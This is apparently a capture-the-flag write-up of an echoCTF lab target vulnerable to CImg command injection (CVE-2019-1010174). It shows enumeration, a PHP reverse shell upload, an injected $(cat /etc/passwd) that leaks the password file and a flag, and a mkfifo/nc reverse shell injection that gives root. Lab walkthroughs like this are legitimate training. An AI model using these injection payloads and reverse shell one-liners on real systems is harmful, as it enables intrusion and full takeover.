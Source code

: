 ```yaml
---
layout: post
title: CVE-2019-1010174
feature-img: "assets/img/portfolio/CVE-2019-14813.png"
img: "assets/img/portfolio/CVE-2019-14813.png"
date: 14 jun 2021
#tags: [Lorem, Ipsum]
---
```


[CVE-2019-14813](https://echoctf.red/target/23)


This is a target with direct implementation of the CVE-2019-1010174 for the CImg Library v.2.3.3 and is here to assist in developing exploits for this vulnerability.

Description:
CImg The CImg Library v.2.3.3 and earlier is affected by a command injection vulnerability. This attack can lead to RCE. The vulnerable code can be found in the load_network() function. Loading an image from a user-controllable url can lead to command injection, because no string sanitization is done on the url.

Environment details:
The system is accessible at 10.0.160.248 and runs a web server and a vulnerable binary utilizing CImg.

Flags can be obtained by either accessing directly the service 375/tcp or through the web interface at http://10.0.160.248. Flags can be found at the usual places:

/root/ETSCTF
/etc/passwd gecos
/etc/shadow password hash
env variable
The source for the service listening on 375/tcp is the following

[SecurityExploits-CImg](https://github.com/github/security-lab/tree/master/SecurityExploits/CImg)

```
#undef cimg_display
#define cimg_display 0
#include "CImg.h"
using namespace cimg_library;
#include 
#include 

// To compile and run:
//
// g++ -I./CImg poc.c -o poc
// ./poc
//
// Notice that the file ~/CImg-RCE has now been created.

int main(int argc, char **argv) {
  CImg<> img;
  std::cout << "Provide image url: " << std::endl;
  for (std::string line; std::getline(std::cin, line);) {
        std::cout << line << std::endl;
        img.assign(line.c_str());
  }
  return 0;
}
```

References:
[CVE-2019-1010174](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1010174)
[Fix commit](https://framagit.org/users/sign_in)


### Enumartion:

nmap -sC -sV  10.0.40.0 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-19 11:35 IDT
Nmap scan report for 10.0.40.0
Host is up (0.076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Scrap Images from URLs



### Http

i have web page with upload forum
![](assets/img/CVE-2019-1010174.png)

*When in doubt, check /images/* 

setting python server and check if we can grab the file:

lets try to upload php rev shell-  [rev_shell]:(https://www.revshells.com/)

![](assets/img/CVE-2019-1010174_upload.png)

and i have the file in /images/

### RCE 

opening listenner, got shell as www-data

```
nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.40.0 33426
Linux CVE-2019-1010174.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64 GNU/Linux
 08:46:10 up 24 days, 10:00,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

### Privilege escalation

runing proccess:

```
ps -aux |  grep root
root         1  0.0  0.1  17964  2412 ?        Ss   Jun13   0:00 /bin/bash /entrypoint.sh /usr/local/bin/CImg.sh
root        29  0.0  0.3 220900  7128 ?        Ss   Jun13   0:02 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
root        45  0.0  0.0 159540  1664 ?        Ss   Jun13   0:00 nginx: master process /usr/sbin/nginx
root        47  0.0  0.1  17944  2380 ?        S    Jun13   0:00 /bin/bash /usr/local/bin/CImg.sh
root        48  0.0  0.1  24584  3020 ?        S    Jun13   0:00 socat TCP-LISTEN:375,reuseaddr,fork EXEC:/usr/local/bin/CImg,stderr
www-data 10109  0.0  0.0  11108   956 pts/0    S+   06:58   0:00 grep root
```

opened ports:

```
www-data@CVE-2019-1010174:/$  ss -ant
ss -ant
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN     0      5            *:375                      *:*
LISTEN     0      128    127.0.0.11:42171                    *:*
LISTEN     0      128          *:80                       *:*
```

port 375 is listening, after cheking it i got this:

```
 nc 127.0.0.1 375 -v
nc 127.0.0.1 375 -v
localhost [127.0.0.1] 375 (?) open
Provide image url: 

[CImg] *** CImgIOException *** [instance(0,0,0,0,(nil),non-shared)] CImg<float>::load(): Failed to open file ''.
terminate called after throwing an instance of 'cimg_library::CImgIOException'
  what():  [instance(0,0,0,0,(nil),non-shared)] CImg<float>::load(): Failed to open file ''
```

its same service as i got RCE to machine but diffrent port. 

```
$ nc 10.0.40.0 375
Provide image url: 
```
same service but without http.

i focused in:
```
CImg The CImg Library v.2.3.3 and earlier is affected by: command injection. The impact is: RCE. The component is: load_network() function. The attack vector is: Loading an image from a user-controllable url can lead to command injection, because no string sanitization is done on the url. The fixed version is: v.2.3.4.

my next step is to create bash file that ill will run it while im uploading. 

```
so i tried to add $(command_injection)

```
nc 10.0.40.0 375
Provide image url: 
http://10.10.0.10:8000/cat.jpeg $(cat /etc/passwd)
```

and its working

```
/cat.jpeg%20root:x:0:0:root:/root:/bin/bash%0Adaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin%0Abin:x:2:2:bin:/bin:/usr/sbin/nologin%0Asys:x:3:3:sys:/dev:/usr/sbin/nologin%0Async:x:4:65534:sync:/bin:/bin/sync%0Agames:x:5:60:games:/usr/games:/usr/sbin/nologin%0Aman:x:6:12:man:/var/cache/man:/usr/sbin/nologin%0Alp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin%0Amail:x:8:8:mail:/var/mail:/usr/sbin/nologin%0Anews:x:9:9:news:/var/spool/news:/usr/sbin/nologin%0Auucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin%0Aproxy:x:13:13:proxy:/bin:/usr/sbin/nologin%0Awww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin%0Abackup:x:34:34:backup:/var/backups:/usr/sbin/nologin%0Alist:x:38:38:Mailing%20List%20Manager:/var/list:/usr/sbin/nologin%0Airc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin%0Agnats:x:41:41:Gnats%20Bug-Reporting%20System%20(admin):/var/lib/gnats:/usr/sbin/nologin%0Anobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin%0A_apt:x:100:65534::/nonexistent:/bin/false%0AETSCTF:x:1000:65534:ETSCTF_edc6f858710d7f35ae577eb5b349ec70:/home/ETSCTF:/bin/bash HTTP/1.1" 404 -
10.0.40.0 - - [19/Jul/2022 12:15:23] "GET /cat.jpeg  HTTP/1.1" 200 -
```


lets try to add rev shell:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 5555 >/tmp/f

nc 10.0.40.0 375
Provide image url: 
http://10.10.0.10:8000/cat.jpeg $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 5555 >/tmp/f)
````
opened listener in my machine:

```
nc -lnvp 5555                                                                                                                                                                                130 ⨯
Listening on 0.0.0.0 5555
Connection received on 10.0.40.0 46788
# id
uid=0(root) gid=0(root) groups=0(root)
```

